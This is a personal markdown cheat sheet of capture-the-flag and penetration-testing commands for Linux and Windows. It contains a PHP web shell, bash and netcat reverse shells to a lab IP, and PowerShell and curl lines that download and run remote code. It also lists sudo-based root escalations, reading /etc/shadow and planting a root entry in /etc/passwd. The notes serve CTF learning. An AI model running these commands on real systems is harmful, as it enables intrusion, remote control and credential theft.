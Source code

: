 #CTF Notes

##Linux

Website for searching for shells through random programs such as 'vi' "living off the land binaries": https://gtfobins.github.io/ 
Raw memory location so no files on disk: /dev/shm/

###Enumeration

find files user has access to: 
> find / -user <username> -ls 2>/dev/null

full linux enumeration: LinEnum.py from github #This is very helpful!! /// Also LinPEAS
Locate exploits: 
> searchsploit <name_of_program> # -x then name/number of exploit to pull up code

enumerate running processes: pspy
enumeration multi-tool: Sparta (does nmap, hydra, nikto, sqlscan, ssl...)
http://bastille-linux.sourceforge.net/assessment.htm
enumerate info about current process running from: /proc/self/status
https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI

###Upgrade shells:

```
1. [user@localhost]$ sudo python -c 'import pty; pty.spawn("/bin/sh")'
2. [user@localhost]$ sudo perl -e 'exec "/bin/sh";'
3. [user@localhost]$ sudo ruby -e 'exec "/bin/sh"'
```

php shell: 
> <?php system($_GET['variable_name']); ?>
bash reverse shell: 
> bash -i >& /dev/tct/10.10.14.148/9001 0>&1
URL encoded: 
> bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261

nc listener: 
>nc -lvnp 9001

python shell:   
```
python -c 'import pty;pty.spawn("/bin/bash")'; #for interactive shell
^[ctrl-z to background]; stty raw -echo; #after python shell for full interactive
^export TERM=xterm #use after ^ to allow to clear screen in remote shell...
```

###TMUX
tmux can keep alive sessions if lose ssh etc, split panes: 
```
tmux new -s <session_name>
**ctrl-b** = prefix key (addnl commands) +[%]vertical  or + ["]horizontal to split windows +[arrow_keys] move between panes +[z] zoom in/out on pane +[?] help for tmux +[t] timer
tmux logging plugin (get this!!) can save log of tmux windows
alt-[.] cycle through previous arguments
ctrl-[arrow_keys] move between "words" on a command line
````
https://github.com/NHDaly/tmux-better-mouse-mode

**Privilege Escalation**
execute command as another user; sudo -u <username> [command]
execute any command: while in less [!]
Privilege Escalation to Root: chmod 47555 /bin/less
^ less /etc/shadow //can run commands in less with :!
download and execute script (LinEnum) [from victim]: curl <url or IP>/LinEnum.sh | bash
https://payatu.com/guide-linux-privilege-escalation
[user@localhost]$ sudo find /etc -exec sh -i \;
wildcard injection: [NEED MORE HERE]
mawk 'BEGIN {system("/bin/sh")}'
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page



###Misc Linux
list all running commands: ps -eo command
^change delimiter to \n instead of [space] (loop by line): IFS=$'\n'
^loop through each line in output: for i in $(ps -eo command); do echo $i; done
'new' netstat: ss -lnp | grep 9001 #check if any connections on port 9001
get user permissions: sudo -l #github linenum
copy files to local machine: base64 -w 0 /path/of/file/name.file #copy base64 then: echo -n <base64material> | base64 -d > filename.file
pretty print text in console? [Haven't looked this one up]: jq
wfuzz
convert rpm to debian packages: alien <file.rpm>
Makes PWD part of path so dont need './' [NOT RECOMMENDED!]: export PATH='pwd':$PATH

##Windows

https://lolbas-project.github.io/ - living off the land binaries

Powershell full path: C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe
Powershell "wget" and execute remote code: powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
Powershell Script Execution Bypass: [can embed in php too!]: echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
Powershell reverse shell and exploit scripts: nishang [Ippsec:HacktheBox - Optimum]
Netcat reverse shell (after uploading the binary!): nc64.exe -e cmd <ip port>

tools: https://specterops.io/resources/research-and-development
easy windows shell: unicorn.py (trustedsec)
system information: sysinfo
getuid
https://www.youtube.com/watch?v=e9lVyFH7-4o
Powershell privilege escalation: PowerUp.ps1; Sherlock.ps1

check what updates are installed: type WindowsUpdate.log

net use share from linux [like SimpleHTTPServer for Samba]: impacket-smbserver <sharename> '<dir_to_share>'

##Miscelaneous

Encryption/Decryption
https://gchq.github.io/CyberChef/
good cipher tools: rumkin.com 
one time pad: pt - ct = key
decrypt rsa private key: openssl rsautl -decrypt -inkey <key_file> < <pass.crypt (hex file?encrypted contents of pub key?)> [Ippsec:HacktheBox - Charon]
crack password with known format:hashcat -m <1600 (hashtype)> <hash.txt> --force -a 3 -1 <char_set> ?1?1?1?1?1?1?1?1 -O  [?1 = use 1 char from '1' set]
create wordlist with known character set & length: crunch <8 (min_length)> <8 (max_length)> <aefhrt (char_set)> > wordlist.txt
https://hashcat.net/wiki/doku.php?id=example_hashes [get hash formats]
https://github.com/magnumripper/JohnTheRipper "Jumbo John"
generate password for insertion into /etc/passwd: openssl passwd -l (1?) -salt <salt_value (anything)> <password> ///<username>:<generated_pass>:0:0:root:/root:/bin/bash
Hashes.org: large database of pre-cracked hashes
password lists: https://wiki.skullsecurity.org/Passwords

###Binary Exploitation
gdb plugin for exploits/creates patterns for ROP determination: peda.py/pwndbg [gdb: pattern create ###]
ASLR Bypass/binary exploit/gdb: Ippsec:HackTheBox - October /// Ippsec:Camp CTF - Bitterman [pwnTools]
Binary Ninja
Packetstorm /bin/sh shellcode
simple binary exploitation [Ippsec:HacktheBox - Sneaky]
protostar ctf for getting into binary exploitation

###HTTP
in order to proxy tools that have no proxy option: create burn proxy 127.0.0.1:80 [Ippsec:HacktheBox - Granny & Grandpa]
vulnerability testing for webdav (or other file upload vulns!): davtest
bypassing filetype filters with http MOVE command to rename allowed filetype [Ippsec:HacktheBox - Granny & Grandpa]
Wordpress enumeration: wpscan -u <url> [--disable-tls-checks]
pull Google cached webpage if not loading: cache:https://<somewebsite>
virtual host routing: substitute ip for hostname to get different results
gobuster -u <url> -l -w <wordlist> -x php -t 20 [-l include length, -x append .php to searches, -t threads]
hydra against http wordpress login walkthrough [IppSec:HacktheBox - Apocalyst]

###SQL
blind sql injection UNIoN queries [Ippsec:HacktheBox - Charon] use CONCAT("x","x")
get shell in mysql: \! /bin/sh
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

###DNS
DNS reverse lookup recon: dnsrecon -r <ip/subnet[127.0.0.0/24]> -n <ip_to_check>
DNS zone transfer: dig axfr <hostname> @<ip>
add DNS server: /etc/resolv.conf {nameserver <ip>}
add Hosts: /etc/hosts

###Steganography
extract files from stego'd files: binwalk -Me <filename>

###SSH
generate ssh key for access: ssh-keygen -f <filename>; cat <filename>; 
^ #copy to remote host; echo <copied_key> > ./.ssh/authorized_keys
^use generated key to ssh remote: chmod 600 <filename>; ssh -i <filename> <remotehost>
generate public key from private key: ssh-keygen -y -f ~/.ssh/id_rsa > ~/.ssh/id_rsa.pub
^As a side note, the comment of the public key is lost,so you need to edit ~/.ssh/id_rsa.pub and append a comment to the first line with a space between the comment and key data. An example public key is shown truncated below.
^ssh-rsa AAAA..../VqDjtS5 ubuntu@ubuntu
If connection is dropped upon connect:
Don't use bash for this session, try dash (or /bin/sh):
ssh 127.0.0.1 /bin/dash
Use bash with command options to disable processing startup files:
ssh 127.0.0.1 "bash --noprofile --norc"

###Unsorted
shortcut for all ports: nmap -p-
Firefox Browser plugins:Tampermonkey (userscript manager); Cookie Manager+; 
signing APK files: IppSec:HHC2016 - Debug
view hex of file only: xxd -p //reverse from hex: xxd -r -p > <filename>
Learn vim: vimtutor /// https://www.youtube.com/watch?v=OnUiHLYZgaA ///fuzzy finder plugin ctrlp /// surround.vim
msfvenom custom exploit making:[Ippsec:HacktheBox - Granny & Grandpa] msfvenom -p <payload> LHOST=<lhost> etc... -f <filetype [use --help-formats first]>
injecting IPs when '.' is disallowed: convert dotted_decimal to decimal value - https://github.com/4ndr34z/MyScripts/blob/master/ip2dh.py
https://romannurik.github.io/AndroidAssetStudio/index.html
port knocking: [Ippsec:HackTheBox - Nineveh] iptables knockd
^ for i in <port> <port> <port>; do nmap -Pn -p $i --host_timeout 201 --max_retries 0 <ip>; done
recursively download all files in hosted folder: wget -r <ip:port>
Hurricane Electric ISP - http://he.net/ [Ippsec uses with IPv6 as a psuedo-VPN]
IPv6 primer [Ippsec:HacktheBox - Sneaky] fe80::/10 - febf:ffff:ffff:ffff:ffff:ffff:ffff:ffff Unique Link Local 169.254.x.x APIPA (built from MAC address on Linux, 7th bit flips, adds ff:fe in the center)/// fc00::/7 - fdff:ffff:ffff:ffff:ffff:ffff:ffff:ffff Unique Local Unicast 10.x.x.x, 172.16.x.x, 192.168.x.x /// 2000::/3 - Global Unicast routable /// ff02::1 - Multicast All Nodes /// ff02::2 Multicast ROUTER nodes
ip6tables - iptables for ipv6

##Write-ups

https://medium.com/bugbountywriteup
https://cowsayroot.com/
https://www.nav1n.com/
https://www.hackingarticles.in/
https://resources.infosecinstitute.com/tools-of-trade-and-resources-to-prepare-in-a-hacker-ctf-competition-or-challenge/
https://www.reddit.com/r/hackthebox/
https://mzfr.github.io/vulnhub-writeups/

##CTF Tools & Cheatsheets

https://github.com/Ganapati/RsaCtfTool <-- RSA cracking tools //uncipher data from weak public key and try to recover private key
https://www.capturetheflags.com/tools-for-ctf/   <--Has both linux and windows
https://github.com/apsdehal/aWEsoMe-cTf
https://github.com/zardus/ctf-tools
https://dvd848.github.io/CTFs/
https://github.com/ryanking13/ctf-cheatsheet
https://github.com/w181496/Web-CTF-Cheatsheet
https://nikolaskama.me/infosec-cheat-sheets/
https://www.peerlyst.com/posts/the-complete-list-of-infosec-related-cheat-sheets-claus-cramon
